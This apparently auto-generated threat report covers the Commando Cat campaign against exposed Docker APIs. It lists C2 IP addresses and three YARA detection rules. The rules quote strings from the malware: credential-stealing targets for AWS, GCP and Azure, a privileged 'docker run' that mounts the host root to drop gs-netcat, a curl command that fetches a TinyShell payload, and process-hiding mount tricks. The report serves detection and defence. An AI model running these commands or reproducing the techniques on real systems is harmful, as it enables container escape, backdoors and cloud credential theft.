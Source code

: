 # Threat Report: 2024-02-01: The Nine Lives of Commando Cat: Analysing a Novel Malware Campaign Targeting Docker


## Key Intelligence
* Date: 2024-02-01
* Threat Level: 2 (Medium)
* Tags: tlp:white

---

## Indicators of Compromise (IOCs)
### External analysis
* link: https://www.cadosecurity.com/the-nine-lives-of-commando-cat-analysing-a-novel-malware-campaign-targeting-docker/

### Network activity
* ip-dst: 45.9.148.193 — C2
* ip-dst: 103.127.43.208

### Other
* comment: The payloads are delivered to exposed Docker API instances over the Internet by the IP 45[.]9.148.193 (which is the same as C2). The attacker instructs Docker to pull down a Docker image called cmd.cat/chattr. The cmd.cat (also known as Commando) project

### Payload delivery
* md5: <md5>
* md5: <md5>
* md5: <md5>
* md5: <md5>

### Payload installation
* yara: rule Stealer_Linux_CommandoCat {
	meta:
        description = "Detects CommandoCat aws.sh credential stealer script"
        license = "Apache License 2.0"
        date = "2024-01-25"
        hash1 = "185564f59b6c849a847b4aa40acd9969253124f63ba772fc5e3ae9dc2a50eef0"
    strings:
        // Constants
        $const1 = "CRED_FILE_NAMES"
        $const2 = "MIXED_CREDFILES"
        $const3 = "AWS_CREDS_FILES"
        $const4 = "GCLOUD_CREDS_FILES"
        $const5 = "AZURE_CREDS_FILES"
        $const6 = "VICOIP"
        $const7 = "VICHOST"

        // Functions
        $func1 = "get_docker()"
        $func2 = "cred_files()"
        $func3 = "get_azure()"
        $func4 = "get_google()"
        $func5 = "run_aws_grabber()"
        $func6 = "get_aws_infos()"
        $func7 = "get_aws_meta()"
        $func8 = "get_aws_env()"
        $func9 = "get_prov_vars()"

        // Log Statements
        $log1 = "no dubble"
        $log2 = "-------- PROC VARS -----------------------------------"
        $log3 = "-------- DOCKER CREDS -----------------------------------"
        $log4 = "-------- CREDS FILES -----------------------------------"
        $log5 = "-------- AZURE DATA --------------------------------------"
        $log6 = "-------- GOOGLE DATA --------------------------------------"
        $log7 = "AWS_ACCESS_KEY_ID : $AWS_ACCESS_KEY_ID"
        $log8 = "AWS_SECRET_ACCESS_KEY : $AWS_SECRET_ACCESS_KEY"
        $log9 = "AWS_EC2_METADATA_DISABLED : $AWS_EC2_METADATA_DISABLED"
        $log10 = "AWS_ROLE_ARN : $AWS_ROLE_ARN"
        $log11 = "AWS_WEB_IDENTITY_TOKEN_FILE: $AWS_WEB_IDENTITY_TOKEN_FILE"

        // Paths
        $path1 = "/root/.docker/config.json"
        $path2 = "/home/*/.docker/config.json"
        $path3 = "/etc/hostname"
        $path4 = "/tmp/..a.$RANDOM"
        $path5 = "/tmp/$RANDOM"
        $path6 = "/tmp/$RANDOM$RANDOM"

    condition:
        filesize < 1MB and
        all of them        
}
* yara: rule Backdoor_Linux_CommandoCat {
	meta:
        description = "Detects CommandoCat gsc.sh backdoor registration script"
        license = "Apache License 2.0"
        date = "2024-01-25"
        hash1 = "d083af05de4a45b44f470939bb8e9ccd223e6b8bf4568d9d15edfb3182a7a712"
    strings:
        // Constants
        $const1 = "SRCURL"
        $const2 = "SETPATH"
        $const3 = "SETNAME"
        $const4 = "SETSERV"
        $const5 = "VICIP"
        $const6 = "VICHN"
        $const7 = "GSCSTATUS"
        $const8 = "VICSYSTEM"
        $const9 = "GSCBINURL"
        $const10 = "GSCATPID"

        // Functions
        $func1 = "hidfile()"

        // Log Statements
        $log1 = "run gsc ..."

        // Paths
        $path1 = "/dev/shm/.nc.tar.gz"
        $path2 = "/etc/hostname"
        $path3 = "/bin/gs-netcat"
        $path4 = "/etc/systemd/gsc"
        $path5 = "/bin/hid"

        // General
        $str1 = "mount --bind /usr/foo /proc/$1"
        $str2 = "cp /etc/mtab /usr/t" 
        $str3 = "docker run -t -v /:/host --privileged cmd.cat/tar tar xzf /host/dev/shm/.nc.tar.gz -C /host/bin gs-netcat"

    condition:
        filesize < 1MB and
        all of them        
}
* yara: rule Backdoor_Linux_CommandoCat_tshd {
	meta:
        description = "Detects CommandoCat tshd TinyShell registration script"
        license = "Apache License 2.0"
        date = "2024-01-25"
        hash1 = "65c6798eedd33aa36d77432b2ba7ef45dfe760092810b4db487210b19299bdcb"
    strings:
        // Constants
        $const1 = "SRCURL"
        $const2 = "HOME"
        $const3 = "TSHDPID"

        // Functions
        $func1 = "setuptools()"
        $func2 = "hidfile()"
        $func3 = "hidetshd()"

        // Paths
        $path1 = "/var/tmp"
        $path2 = "/bin/hid"
        $path3 = "/etc/mtab"
        $path4 = "/dev/shm/..tshdpid"
        $path5 = "/tmp/.tsh.tar.gz"
        $path6 = "/usr/sbin/tshd"
        $path7 = "/usr/foo"
        $path8 = "./tshd"

        // General
        $str1 = "curl -Lk $SRCURL/bin/tsh/tsh.tar.gz -o /tmp/.tsh.tar.gz"
        $str2 = "find /dev/shm/ -type f -size 0 -exec rm -f {} \\;"

    condition:
        filesize < 1MB and
        all of them        
}
